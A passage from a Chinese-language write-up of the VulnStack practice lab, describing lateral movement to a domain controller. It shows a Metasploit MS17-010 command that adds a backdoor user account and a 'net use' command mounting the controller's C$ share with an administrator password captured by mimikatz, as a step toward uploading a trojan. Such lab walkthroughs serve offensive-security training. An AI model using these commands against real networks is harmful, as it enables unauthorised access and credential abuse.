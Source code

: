 ![img](VulnStack(1)/images/image-15.png)

成功拿下192.168.52.141这台内网主机

# 杀入域控
用打win2k3一样的思路打域控


use auxiliary/admin/smb/ms17_010_command
set COMMAND net user hack qaz@123 /add

尝试telnet/rdesktop 均失败

换思路
通过win7在域控上传一个msf木马

先用win7连接域控的C盘共享
这里的密码是先前mimikatz抓到的

net use \\192.168.52.138\c$ "hongrisec@2024" /user:"administrator"

![img](VulnStack(1)/images/image-16.png)
